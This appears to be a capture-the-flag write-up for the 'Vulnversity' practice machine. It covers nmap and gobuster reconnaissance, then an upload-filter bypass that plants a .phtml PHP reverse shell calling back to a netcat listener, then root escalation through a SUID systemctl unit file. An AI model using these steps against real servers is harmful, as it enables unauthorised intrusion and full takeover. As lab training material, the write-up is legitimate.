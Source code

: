# Vulnversity

## Recon and scanning machine

first thing's first. save that IP
```
export IP=10.10.12.13
```
ping it until it is given us a response

let's run a scan against this machine using NMAP

```
nmap -sV -vv $IP
```
nmap flag	Description
-sV			Attempts to determine the version of the services running

-p or -p-	Port scan for port <x> or scan all ports

-Pn			Disable host discovery and just scan for open ports

-A			Enables OS and version detection, executes in-build scripts for further enumeration 

-sC			Scan with the default nmap scripts
-v			Verbose mode
-sU			UDP port scan
-sS			TCP SYN port scan

Questions

### 2  Scan the box, how many ports are open?
### 3 	What version of the squid proxy is running on the machine? 3.5.12
### 4 	How many ports will nmap scan if the flag -p-400 was used? 400
### 5 	Using the nmap flag -n what will it not resolve? DNS
### 6 	What is the most likely operating system this machine is running? Ubuntu
### 7 	What port is the web server running on? 3333
### 8 	Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)

## Locating directories

Download GoBuster

Run this command

```
 % gobuster dir -u http://$IP:3333 -w /usr/share/wordlists/dirb/big.txt
 ```
The output should shoow some directories to investigate
```

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.200.189:3333
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/12 18:09:32 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/internal (Status: 301)
/js (Status: 301)
/server-status (Status: 403)
===============================================================
2020/05/12 18:10:24 Finished
===============================================================
```

### 2 	What is the directory that has an upload form page? 
```
/internal
```
## Compromise the server

Now we have the upload form, we can use netcat and a reverse shell to give us access to the server

Now, we have to find out which extensions are blocked and which aren't. We are given a small wordlist to try
```
.php
.php3
.php4
.php5
.phtml
```
First, we need to upload a file to grab the parameters that Burp wants to exploit

if we send a file to the internal upload form, we can grab that parameter and try our mini word list

Of the word list, only .phtml files are not blocked. We can rename our reverse shell to .phtml, use our
local credentials (tun0 and any port we like) and gain access with netcat.

The only part of the reverse shell that needs changing is below..

```
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.9.0.71';  // CHANGE THIS TO YOUR VPN IP
$port = 4444;       // CHANGE THIS TO ANY PORT YOU WILL REMEMBER
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

once this is saved as reverse-shell.phtml (or soemthing you will remember)

launch netcat with the port you have chosen

```
nc -lvnp 4444
```
That is now listening on port 4444 and waiting for my reverse shell

Now, we can naviagte to /internal and upload our reverse shell

If we get a success message, we can then go to /internal/uploads/

If you see the reverse shell file, click it and NC will access.

If the reverse shell is not there, it has failed. The server is not stable, so try again until you get in.

## Escalating privilege

### On the system, search for all SUID files. What file stands out? /bin/systemctl

Now, we are going to use SUID (set own user id) to escalate our privileges and get to root.

On google, these are the most common commands to SUID

```
find "$DIRECTORY" -perm /4000

find "$DIRECTORY" -perm /2000

find "$DIRECTORY" -perm /6000

find "$DIRECTORY" -perm /u=s,g=s
```

*copied from N0wn walkthrough*

First we create a variable which holds a unique file.
```
$ eop=$(mktemp).service
```

This is the unit file that is written into the variable

```	
$ echo '[Service]
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
> [Install]
> WantedBy=multi-user.target' > $eop
```

now a file called output is created in the tmp folder
```
$ /bin/systemctl link $eop
Created symlink from /etc/systemd/system/tmp.x1uzp01alO.service to /tmp/tmp.x1uzp01alO.service.
$ /bin/systemctl enable --now $eop
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.x1uzp01alO.service to /tmp/tmp.x1uzp01alO.service.
```
run the command to see if it worked...

```	
$ ls -lah /tmp
```
```
total 40K
drwxrwxrwt  8 root     root     4.0K Sep 11 08:02 .
drwxr-xr-x 23 root     root     4.0K Jul 31 18:29 ..
drwxrwxrwt  2 root     root     4.0K Sep 11 06:43 .ICE-unix
drwxrwxrwt  2 root     root     4.0K Sep 11 06:43 .Test-unix
drwxrwxrwt  2 root     root     4.0K Sep 11 06:43 .X11-unix
drwxrwxrwt  2 root     root     4.0K Sep 11 06:43 .XIM-unix
drwxrwxrwt  2 root     root     4.0K Sep 11 06:43 .font-unix
-rw-r--r--  1 root     root       33 Sep 11 08:02 output
drwx------  3 root     root     4.0K Sep 11 06:43 systemd-private-08e99713731549f5bfffde65043f0c88-systemd-timesyncd.service-5k0yVW
-rw-------  1 www-data www-data    0 Sep 11 07:58 tmp.x1uzp01alO
-rw-rw-rw-  1 www-data www-data  103 Sep 11 07:59 tmp.x1uzp01alO.service
```
There is a file called output and inside that file is the flag.